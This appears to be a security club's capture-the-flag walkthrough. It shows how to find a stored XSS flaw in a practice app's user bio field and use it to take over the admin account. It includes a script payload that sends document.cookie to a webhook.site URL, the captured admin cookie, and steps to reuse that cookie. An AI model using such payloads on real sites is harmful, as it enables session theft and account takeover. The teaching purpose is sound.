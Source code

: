 # XSS on Tweeter

Thanks for coming to our first meeting! We hope you learned something, even if you didn't get to solve the challenge during the meeting. Below is a walkthrough of how to find and exploit the XSS vulnerability in Tweeter, and hopefully this makes a bit more clear what's happening in an XSS attack.

## Finding the vulnerability
The website doesn't have too much functionality: you can sign up, log in, make posts, change your password, and edit your bio. Testing for XSS is essentially just putting `<script>alert(document.domain)</script>` into all the fields you can. In this case, the vulnerable field is the user bio, and the payload is triggered when visiting your profile.

## Building the exploit
Now that we can execute JavaScript, we need a way to log in as the admin. The website distinguishes users by their cookies, so we just need to steal the admin's cookies and set our cookies to be the same.

In JavaScript, website cookies can be accessed through the `document.cookie` property, which you can read more about [here](https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie).

We also need some way to send the cookies back to us, since we don't have access to the admin's computer. This can be done by sending a request with the admin's cookies to somewhere that lets us monitor requests, such as webhook.site. The payload for this is below:
```html
<script>
	fetch(
		"https://webhook.site/443b7e1e-bd3f-4e38-9976-9da3abe33f11?cookies=" +
		encodeURIComponent(document.cookie))
</script>
```
We can break this down as follows:
- The first line opens a script tag, which lets us execute JavaScript code.
- The second line calls the `fetch` function, which sends a request to the provided URL. More info [here](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API/Using_Fetch).
- The third line is the URL of our webhook, with `?cookies=` added to the end. The question mark denotes the start of the query parameters, where we can put our cookies. Then `cookies=` starts a parameter with the name `cookies`.
- The fourth line encodes the value `document.cookie` to be put in the URL parameter.

# Running the Exploit
We put the payload above in our bio and send the link to our profile to the admin. When the admin visits the link, the payload will execute and send a request which will show up in our webhook.

Inspecting the request in the webhook.site panel, we can see the value of the `cookie` query parameter is `user=YSH+uCoYHrhxCYY9O6%2FrhimfpoLULLQ7cCVngV4AD24%3Dadmin`. Recall that cookies are of the form `key=value`, so the admin's cookie is `YSH+uCoYHrhxCYY9O6%2FrhimfpoLULLQ7cCVngV4AD24%3Dadmin`.

After setting your user cookie to the admin's cookie (instructions for [Chrome](https://developer.chrome.com/docs/devtools/application/cookies/) and [Firefox](https://firefox-source-docs.mozilla.org/devtools-user/storage_inspector/cookies/index.html)) and reloading, you'll be logged in as the admin. Now you can head over to the "Manage Users" link and give yourself Blue.
